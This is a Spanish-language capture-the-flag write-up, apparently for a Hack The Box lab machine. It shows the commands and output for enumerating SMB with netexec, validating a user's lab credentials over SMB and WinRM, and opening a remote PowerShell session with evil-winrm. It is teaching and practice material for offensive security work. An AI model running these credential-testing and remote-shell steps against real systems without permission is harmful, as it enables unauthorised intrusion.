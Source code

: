 Enumeramos smb de la ip: 
```bash 
└─$ netexec smb 10.10.11.42
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
```

Con lo siguiente probamos si nuestras credenciales so válidas, que lo son pero no podemos hacer nada más. 
```bash 
└─$ netexec smb 10.10.11.42 -u Olivia -p ichliebedich
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [+] administrator.htb\Olivia:ichliebedich
``` 

Probamos con `winrm` para ver si perteneceos al grupo de Remote Management Users
```bash 
└─$ netexec winrm 10.10.11.42 -u Olivia -p ichliebedich
WINRM       10.10.11.42     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.11.42     5985   DC               [+] administrator.htb\Olivia:ichliebedich (Pwn3d!)
```

Y parece que pertenecemos a este grupo, vamos a intentar conectarnos con la herramienta `evilwinrm`
```bash 
└─$ evil-winrm -i 10.10.11.42 -u olivia -p 'ichliebedich'         
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\olivia\Documents> whoami
administrator\olivia
*Evil-WinRM* PS C:\Users\olivia\Documents> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 10.10.11.42
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : 10.10.10.2
*Evil-WinRM* PS C:\Users\olivia\Documents> 
``` 
